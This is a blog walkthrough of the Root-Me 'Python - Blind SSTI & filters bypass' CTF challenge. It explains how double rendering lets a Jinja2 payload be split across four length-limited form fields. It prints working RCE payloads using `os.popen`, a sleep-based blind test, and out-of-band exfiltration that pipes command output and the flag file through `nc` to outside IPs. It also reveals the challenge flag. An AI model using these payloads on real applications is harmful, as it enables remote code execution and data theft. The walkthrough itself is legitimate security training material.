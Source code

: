 +++
title = "Bypassing Filters in a Blind SSTI: A Root-Me Walkthrough"
description = "A detailed account of tackling a high-difficulty blind SSTI challenge, from code analysis and payload splitting to out-of-band data exfiltration."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough', 'blind-oob-ssti', 'oob']
+++

After leveling up my SSTI skills, I went looking for a tougher challenge and found it on Root-Me: [Python - Blind SSTI & filters bypass](https://www.root-me.org/en/Challenges/Web-Server/Python-Blind-SSTI-Filters-Bypass). This one was rated "High difficulty" for a reason. It was a blind vulnerability, meaning the server gives no feedback, and it had strict input restrictions. This is the story of how I broke it down, including all the dead ends and discoveries.

## << EXPLORE >>

### Phase 1: Fumbling in the Dark

The application had four input fields: `name`, `surname`, `email`, and `birthday`. My first instinct was to throw every payload I knew at it. I started cycling through the [PayloadBox SSTI list](https://github.com/payloadbox/ssti-payloads), testing each field individually.

```http
# Attempt 1
name={{7*7}}&surname=x&email=x@y.com&bday=01%2F01%2F1999&button=

# Attempt 2
name=x&surname={{7*7}}&email=x@y.com&bday=01%2F01%2F1999&button=

# ...and so on...
```

Of course, nothing happened. No errors, no output, nothing. It was a true blind vulnerability. I realized I needed a language-specific payload and a better way to test. I even briefly considered writing a custom Caido plugin to automate this, since I don't have Burp Suite Pro.

My next step was to assume a Jinja2 engine and try a blind execution payload, like a `sleep` command or an Out-of-Band (OOB) callback. I tried one of my shortest RCE payloads:

```
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

This immediately triggered a validation error for every field: the payload was too long. I was completely stuck and called it a night.

### Phase 2: The "Aha!" Moment

The next day, I had a facepalm moment. (I'd love to say I spotted it myself, but I saw a hint in a forum that the source code was available). I had completely ignored the link in the site's footer.

> Our website's framework is now open source! You can download it **here**. | © Hackorp 2021

**Lesson learned: in a CTF, *nothing* is useless.**

### Phase 3: Code Analysis

Downloading and analyzing the source code was the breakthrough. It revealed the exact mechanics I was up against:

1.  **Engine Confirmed:** The application uses **Jinja2**.
2.  **Double Rendering:** The application renders the template *twice*. This is the critical vulnerability.
3.  **Payload Splitting:** The mail template concatenates the input fields before the second render: `'{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'`. This meant I could split my payload across the four fields!
4.  **Filters and Limits:**
    *   **Lengths:** `name` (20), `surname` (49), `email` (49), `bday` (10).
    *   **Blacklist:** `{{`, `}}`, `{%`, `%}`, `import`, `eval`, `builtins`, `class`, `[`, `]`.

The double rendering was the key. The first render would assemble the parts of my payload, bypassing the `{{` blacklist. The second render would then execute the assembled, malicious string.

### Phase 4: Local Proof of Concept

I built a local PoC script to test this theory.

**Test 1: Simple Math**
I ran my script with a simple split payload:
```bash
python pocs/rootme/ch73.py "name={&surname={7*7}&bday=}"
```

**First Render Output:** The script showed the payload being assembled perfectly.
```
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {
 - Surname: {7*7}
 - Email: 
 - Birth date: }

I'm sending you the details of the application in the attached CSV file:

 - '{{7*7}}.csv'

Best regards,
```

**Second Render Output:** The expression is executed.
```
... I'm sending you the details of the application in the attached CSV file:

 - '49.csv'
...
```
Voila! The theory was sound.

**Test 2: Time-based Blind Test**
Next, a `sleep` command to confirm RCE:
```bash
python pocs/rootme/ch73.py "name={&surname={cycler.__init__.__globals__.os.popen&email=('sleep 5').read()}&bday=}"
```

The script paused for 5.02 seconds before completing. RCE confirmed.

### Phase 5: Out-of-Band (OOB) Data Exfiltration

Now I needed to see command output. The plan: pipe command output via `nc` (a networking utility for reading/writing to network connections) to a server I control.

My first thought was `ngrok`, but I hit a paywall.

```bash
$ ngrok tcp 12345
ERROR:  failed to start tunnel: You must add a credit or debit card before you can use TCP endpoints on a free account...
```

I switched to a free alternative: **Pinggy**. The setup was simple:
1.  **Local Listener:** `nc -lk 1234`
2.  **Expose with Pinggy:** `ssh -p 443 -R0:localhost:1234 tcp@free.pinggy.io`
3.  **Get Public URL:** Pinggy provided a URL: `tcp://wdbuk-49-42-141-200.a.free.pinggy.link:46651`.

This URL was too long for my payload. But a simple `ping` revealed the underlying IP:

```bash
$ ping wdbuk-49-42-141-200.a.free.pinggy.link
PING lin.ap.1.a.pinggy.click (139.162.21.36): 56 data bytes
```

The IP `139.162.21.36` was much shorter. I confirmed it worked:

```bash
# Terminal 1: Send data using the IP
$ echo '$sitasp$ using ping ip' | nc 139.162.21.36 46651

# Listening Terminal: Data is received
$sitasp$ using ping ip
```

Perfect. The OOB channel was ready.

## << EXPLOIT >>

### Phase 6: The Final Assault

I was now ready to exfiltrate data from the live server.

**1. Get User ID**
*   `name`: `{`
*   `surname`: `{cycler.__init__.__globals__.os.popen`
*   `email`: `('id | nc 139.162.21.36 46651').read()}`
*   `bday`: `}`

My listener sprang to life: `uid=1042(web-serveur-ch73) gid=1042(web-serveur-ch73) ...`

**2. The Struggle for the Flag**
This was the hardest part. My goal was to find and read the flag file, but every attempt failed due to the 49-character limit on the `email` field.

*   `('find -name 'flag*' | nc ...').read()}` - Failed: quotes were tricky and the payload was too long.
*   I switched to a more optimized payload using `lipsum` (which my BFS script found as another path to `os`), but still struggled with length.
*   `{lipsum.__globals__.os.popen("find / -name 'flag.*' | xargs cat | nc ...").read()}` - Still too long. `Field 'email' is too long.`

After many frustrating attempts, I finally crafted a payload that was *just* short enough:

*   `name`: `{`
*   `surname`: `{lipsum.__globals__.os.popen("find -name 'flag.`
*   `email`: `*' | xargs cat|nc 172.237.65.217 45841").read()}`
*   `bday`: `}`

Success! The flag appeared in my `nc` listener:

**`j1nj4_s3rv3r_S1de_T3mpl4te_1j3ct10ns_1n_pyth0n`**

## Final Thoughts

This challenge was a fantastic lesson in methodical debugging. It truly showed that understanding the *entire* system (including reading the source code) is paramount. The journey from being completely stuck to slowly building a local PoC, figuring out the OOB channel, and fighting the character limits was incredibly rewarding.